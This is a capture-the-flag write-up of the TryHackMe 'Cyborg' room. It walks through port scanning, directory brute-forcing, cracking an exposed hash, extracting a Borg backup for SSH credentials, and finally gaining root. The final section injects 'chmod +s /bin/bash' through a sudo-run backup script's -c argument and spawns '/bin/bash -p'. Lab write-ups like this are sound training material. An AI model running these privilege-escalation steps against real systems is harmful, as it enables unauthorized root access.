 +++ 
draft = false
date = 2021-01-31T18:53:23+05:30
title = "Cyborg TryHackMe Writeup"
description = "Writeup of Cyborg room in TryHackMe"
slug = ""
authors = ["d4rkn1gh7"]
tags = ["ctf","tryhackme","easy_box"]
categories = ["TryHackMe"]
externalLink = ""
series = ["TryHackMe"]
+++
# [Cyborg](https://tryhackme.com/room/cyborgt8) TryHackMe Writeup


![](/TryHackMe/Cyborg/BoxImage.jpeg)



So this was a very different box from others and also an interesting concept is used on initial foothold.


## __First Stage : Enumeration__


Let's fireup nmap.

```
# Nmap 7.91 scan initiated Sun Jan 31 16:51:47 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.143.35
Warning: 10.10.143.35 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.143.35
Host is up, received syn-ack (0.20s latency).
Scanned at 2021-01-31 16:51:48 IST for 795s
Not shown: 65529 closed ports
Reason: 65529 conn-refused
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp    open     http    syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
29135/tcp filtered unknown no-response
34981/tcp filtered unknown no-response
37803/tcp filtered unknown no-response
47065/tcp filtered unknown no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 31 17:05:03 2021 -- 1 IP address (1 host up) scanned in 796.32 seconds
```

So the open ports are :

* 22
* 80


Hence I visited the port 80.


![](/TryHackMe/Cyborg/port80.png)



So I fired up gobuster and got some interesting results.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.143.35/
[+] Threads:        100
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php
[+] Timeout:        10s
===============================================================
2021/01/31 16:52:20 Starting gobuster
===============================================================
/index.html (Status: 200)
/admin (Status: 301)
/etc (Status: 301)
```


## __Second Stage : Initial access as alex__
Hence I visited admin .

![](/TryHackMe/Cyborg/admin.png)


So there is a backup called music_archive in the web.

So I went to **/etc** . So I found two files.


![](/TryHackMe/Cyborg/etc.png)




![](/TryHackMe/Cyborg/hash.png)




And then the **squid.conf**

```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

So first I cracked the hash and found the password.


Then when I went back to admin directory , in archives -> download I got **archive.tar**.



![](/TryHackMe/Cyborg/arhchive.png)


The **README** file gave a hint to look in the right direction.

```
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

So after reading the documentation , I downloaded the binary and followed the instructions for extracting.

```
#Extract entire archive
$ borg extract /path/to/repo::my-files
```

![](/TryHackMe/Cyborg/extract.png)


So I found the password in __/home/alex/Documents/__.


![](/TryHackMe/Cyborg/passwd.png)



## Third Stage : alex to root


Hence after ssh into the box .



![](/TryHackMe/Cyborg/perms.png)



So reading the **backup.sh**

```
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
So we can see that the script is taking arguments through "c" flag , hence I tired **whoami**.





![](/TryHackMe/Cyborg/try1.png)


Since it worked I tried


> sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"


> /bin/bash -p

And got root.





